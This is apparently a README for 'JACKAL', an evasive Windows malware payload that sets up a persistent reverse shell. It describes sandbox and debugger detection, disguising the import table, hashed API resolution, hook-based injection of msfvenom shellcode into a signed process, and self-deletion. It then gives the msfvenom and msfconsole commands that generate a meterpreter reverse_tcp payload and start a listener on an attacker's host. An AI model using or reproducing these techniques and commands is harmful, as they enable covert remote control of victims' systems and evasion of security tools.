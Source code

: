 # Windows Payload: JACKAL
### Description

This documentation outlines the functionality and implementation details of "JACKAL", a Windows payload designed to establish a persistent reverse shell on a target system. The payload is designed to work in conjunction with the nekrosis framework, leveraging advanced techniques for stealth and evasion.

### Functionality overview

1. **Debugging and Sandbox Detection**: The payload conducts an initial check to determine if it's being debugged or running within a sandbox environment. This is crucial for evading detection and ensuring successful execution.
2. **Import Address Table Camouflage**: To avoid detection, the payload disguises its import address table with whitelisted API functions. This helps to blend in with legitimate system processes and avoid triggering security mechanisms.
3. **Dynamic API Resolution**: The payload dynamically resolves API functions using the custom GetProcessAddressByHash() function. This function utilizes a compile time djb2 hashing algorithm to calculate function hashes, which are then matched against the export address table of specified DLLs to locate the required functions.
4. **Delayed Execution**: The payload introduces delayed execution to wait for a target binary to spawn. This ensures that the payload seamlessly integrates with the target process, enhancing stealth and persistence.
5. **Hook installation and shellcode execution**:
Once the target process is running, the payload locates the address of the WinAPI function to hook within the target process. It then patches the trampoline hook shellcode with the address of the function to hook. Following this, the payload identifies a memory hole adjacent to the DLL exporting the target WinAPI function. The decrypted msfvenom shellcode is injected into this buffer. When the hooked WinAPI function is called in the target process, the injected shellcode is executed. Subsequently, the execution of the target process resumes, establishing a reverse shell connection through the signed binary targeted by the payload.
6. **Self-Deletion**: After successfully establishing the reverse shell, the payload deletes itself to remove evidence of its presence on the system. This helps to maintain stealth and avoid detection by security tools.

### Preparation and Compilation

To ensure a connection can be established to your machine for the reverse shell, a generated payload has to be inserted in the payload array located in payload.cpp. A payload can be generated using msfvenom: 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={listener IP} LPORT={listener port} -f c
```
After the payload is generated and inserted into the code, the code can be compiled using visual studio, and msfconsole can be used as a listener with the following commands
```
msfconsole
msf6 > use windows/x64/meterpreter/reverse_tcp
msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LHOST {listener ip}
msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LPORT {listener port}
msf6 payload(windows/x64/meterpreter/reverse_tcp) > exploit
```
